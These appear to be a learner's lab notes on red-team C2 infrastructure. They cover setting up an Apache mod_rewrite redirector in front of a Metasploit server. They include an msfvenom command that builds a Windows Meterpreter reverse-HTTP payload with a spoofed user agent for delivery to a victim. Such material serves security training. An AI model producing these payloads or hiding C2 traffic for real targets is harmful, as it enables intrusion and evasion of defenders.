 	- So in this way, it is the redirector that will be taken down?
	- Doesn't fingerprinting means that they know the request/response to the C2? But if there is a redirector, there wouldn't be that kind of fingerprint since that will only show up if the Redirector interacts with the C2 server?
	- What exactly is the firewall for? How does it prevent the C2 server from being fingerprinted?

#### How is a Redirector Setup?
- Before we dive into configuring a redirector, we must first understand how one is setup/built.
- We will be aligning this to the tools we have available, which are `Metasploit` and `Apache2`.
- In Apache(redirector), we will be leveraging a module called "`mod_rewrite`" (or the Rewrite module).

		- This module allows us to write rules to forward requests to internal or external hosts on a server based on specific HTTP headers or content.
		-> So basically, the header will be different if it comes from the C2 server.

- Modules to be used:

		- rewrite
		- proxy
		- proxy_http
		- headers

**Note**: If you are using the Attack Box, there is already a service running on port 80 - you must change the default port that Apache listens on in /etc/apache2/ports.conf. You must do this before starting the Apache 2 service, or it will fail to start._

<u>Installing Apache2</u>:
```bash
		$ apt install apache2
```

![](/assets/img/Pasted image 20221201094953.png)

```bash
		$ a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
```

![](/assets/img/Pasted image 20221201095015.png)

	- At this point, the server proxy/redirector is running.

<u>Meterpreter capabilities</u>:

	- configure HTTP request like User-Agent which threat actors do for their C2 HTTP/HTTPs payloads.

<u>Generate Reverse HTTP payload with msfvenom then inspect this HTTP request in Wireshark</u>:
```bash
		$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

![](/assets/img/Pasted image 20221201095318.png)

	-> Now, modify the executable and transfer it to the victim.
